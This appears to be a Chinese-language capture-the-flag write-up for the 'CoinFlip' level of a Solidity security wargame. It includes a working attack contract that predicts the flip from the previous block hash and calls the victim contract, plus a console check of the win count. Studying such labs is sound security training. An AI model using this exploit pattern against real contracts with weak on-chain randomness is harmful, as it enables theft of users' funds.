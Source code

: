 ### CoinFilp
因為這個區塊號可以很容易地獲取，我們還可以產生拋硬幣的結果，並將這個結果提供給 `flip` 函數以獲得正確的猜測和增量 `consecutiveWins`。
我們之所以能夠做到這一點，是因為網路的阻塞時間夠長，因此 `block.number` 在函數呼叫之間不會改變。

使用幾乎相同的硬幣翻轉生成程式碼編寫一個 Solidity 合約（在 Remix IDE 上），`CoinfileAttack` 並在部署的實例位址處呼叫 `flip` 給定 `CoinFlip` 合約，並已確定翻轉結果：
- Ans:
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import "./coinfilp.sol";

contract coinfileAttack {

    CoinFlip public victimContract;
    uint256 FACTOR = 57896044618658097711785492504343953926634992332820282019728792003956564819968;

    constructor(address _victimContractAddr) public {
        victimContract = CoinFlip(_victimContractAddr);
    }

    function filp() public returns (bool) {
        uint256 blockValue = uint256(blockhash(block.number-1));
        uint256 coinFilp = uint256(blockValue/FACTOR);
        bool side = coinFilp == 1 ? true : false;

        victimContract.flip(side);
    }
    
}
```
```
await contract.consecutiveWins()
```

